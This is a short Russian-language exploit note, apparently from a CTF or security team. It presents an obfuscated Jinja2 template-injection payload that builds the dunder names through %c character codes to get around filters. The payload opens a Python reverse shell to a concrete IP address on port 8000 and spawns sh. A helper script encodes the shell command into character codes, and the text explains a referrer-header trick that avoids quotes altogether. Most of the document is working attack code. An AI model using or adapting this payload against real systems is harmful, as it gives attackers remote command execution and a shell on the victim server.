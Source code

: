 Шаблонизатор, широко распространенный. Пейлоад для ревшелла:
```
{%set a=request|attr('application')|attr('%c'*11%(95,95,103,108,111,98,97,108,115,95,95))|attr('%c'*11%(95,95,103,101,116,105,116,101,109,95,95))('%c'*12%(95,95,98,117,105,108,116,105,110,115,95,95))|attr('%c'*11%(95,95,103,101,116,105,116,101,109,95,95))('%c'*10%(95,95,105,109,112,111,114,116,95,95))('%c'*2%(111,115))|attr('%c'*5%(112,111,112,101,110))('%c'*142%(112,121,116,104,111,110,51,32,45,99,32,39,105,109,112,111,114,116,32,111,115,44,112,116,121,44,115,111,99,107,101,116,59,115,61,115,111,99,107,101,116,46,115,111,99,107,101,116,40,41,59,115,46,99,111,110,110,101,99,116,40,40,34,49,55,54,46,49,57,51,46,50,49,51,46,49,52,56,34,44,56,48,48,48,41,41,59,91,111,115,46,100,117,112,50,40,115,46,102,105,108,101,110,111,40,41,44,102,41,102,111,114,32,102,32,105,110,40,48,44,49,44,50,41,93,59,112,116,121,46,115,112,97,119,110,40,34,115,104,34,41,39))%}
```

Прелесть пейлоада в том, что для него не надо ничего, кроме круглых скобок, даже без кавычек можно обойтись, если использовать заголовок, например referrer со значением %c. Тогда надо заменить '%c' на request.referrer. Недостаток - устанешь его писать. Кстати тут пейлоад для питоновского ревшелла с ip-адресом Олега и портом 8000. Желательно его менять)))

Вот скрипт для упрощения жизни для ревшела

```python
s = """python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("176.193.213.148",8000));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'"""

print(len(s))
for sym in s:
    print(ord(sym), end=",")
```


